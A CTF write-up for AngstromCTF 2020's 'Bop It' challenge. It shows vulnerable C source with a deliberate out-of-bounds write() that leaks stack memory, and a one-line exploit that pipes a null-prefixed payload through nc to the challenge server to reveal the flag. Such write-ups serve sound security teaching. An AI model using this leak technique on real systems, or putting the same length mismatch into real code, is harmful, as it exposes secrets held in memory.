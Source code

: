```yaml
---
layout: post
title: AngstromCTF 2020 - Bop It
excerpt: "Writeup for memory leak challenge from AngstromCTF 2020"
categories: [angstromctf 2020]
---
```


Bop It was the third challenge in the Binary section of AngstromCTF. Although the bug was fairly simple, the challenge only accumulated 162 solves. The challenge supplies us with an executable and some source code (below).

{% highlight c %}
#include <stdlib.h>
#include <time.h>
#include <stdio.h>
#include <string.h>

int main() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	const char *actions[] = {"Bop it!\n", "Twist it!\n", "Pull it!\n", "Flag it!\n"};

	srand(time(NULL));

	char c;
	char *action = actions[rand()%4];
	write(1, action, strlen(action));
	while ((c = getchar()) != EOF) {
		if (!strcmp(action, actions[3])) {
			char guess[256];
			guess[0] = c;
			int guessLen = read(0, guess+1, 255)+1; //add to already entered char
			guess[guessLen-1] = 0; //remove newline
			char flag[32];
			FILE *f = fopen("flag.txt", "rb");
			int r = fread(flag, 1, 32, f);
			flag[r] = 0; //null terminate
			if (strncmp(guess, flag, strlen(flag))) {
				char wrong[strlen(guess)+35];
				wrong[0] = 0; //string is empty intially
				strncat(wrong, guess, guessLen);
				strncat(wrong, " was wrong. Better luck next time!\n", 35);
				write(1, wrong, guessLen+35);
				exit(0);
			}
		} else if (c != action[0]) {
			char wrong[64] = "_ was wrong. What you wanted was _!\n";
			wrong[0] = c; //user inputted char
			wrong[strlen(wrong)-3] = action[0]; //correct char
			write(1, wrong, strlen(wrong));
			getchar(); //so there's no leftover newline
			exit(0);
		} else { getchar(); }
		action = actions[rand()%4];
		write(1, action, strlen(action));
	}
}
{% endhighlight %}

Upon first glance the code looks somewhat complicated. After some trial and error though, it is clear that there is a bug in the `write` call when action is "Flag It!". The variable `wrong` is initialized with a size of `strlen(guess)+35`, and is written to stdout. The problem is that the strlen function stops at null bytes, but the guessLen variable will not (it is set from the read function). Whenever guessLen+35 is larger than the `wrong` variable to be written, `write` will continue to give data after the end of the `wrong` buffer, and memory will be leaked. Seeing that the flag has been opened whenever the vulnerable write is called reassures us that we are on the right track.

Since the exploit is simple I used inline python. You can see that it takes a few times before hitting the "Flag It!" action, but once we do memory is leaked.

```
root@9903d51849b1 /pwn# python -c 'print "\x00" + "A" * 200' | nc shell.actf.co 20702
Twist it!
root@9903d51849b1 /pwn# python -c 'print "\x00" + "A" * 200' | nc shell.actf.co 20702
Flag it!
 was wrong. Better luck next time!
?GXU?GXU"?GXUactf{bopp1ty_bop_bOp_b0p}?"?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA~      root@9903d51849b1 /pwn# 
```

In this string we can see `actf{bopp1ty_bop_bOp_b0p}` which is the flag to the challenge!